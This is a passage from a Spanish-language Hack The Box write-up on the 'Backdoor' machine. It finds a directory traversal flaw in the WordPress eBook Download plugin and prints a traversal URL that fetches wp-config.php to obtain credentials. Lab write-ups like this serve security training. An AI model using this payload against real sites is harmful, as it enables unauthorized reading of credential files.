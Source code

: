 A pesar de toda la información, no he logrado acceso al panel de administración de WordPress.

## Fase de Explotación

Podemos tratar de ver los plugins instalados en la web:

![plugins](/assets/images/hackthebox/machines/backdoor/plugins.png)

Vemos que tienen instalado el plugin **`ebook-download`**, busquemos alguna vulnerabilidad y su correspondiente exploit.

```console
p3ntest1ng:~$ searchsploit Wordpress eBook Download
-------------------------------------------------------------- -----------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- -----------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal     | php/webapps/39575.txt
-------------------------------------------------------------- -----------------------
Shellcodes: No Results
```

Podemos ver la explicación y el POC (Proof of Concept) aquí: https://www.exploit-db.com/exploits/39575
El plugin es vulnerable a **`Directory Path Traversal`** por lo cual podemos descargarnos archivos locales de forma remota.

Lo primero que podemos hacer es descargarnos una copia del archivo **`wp-config.php`** ya que suele contener el usuario y la contraseña.

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
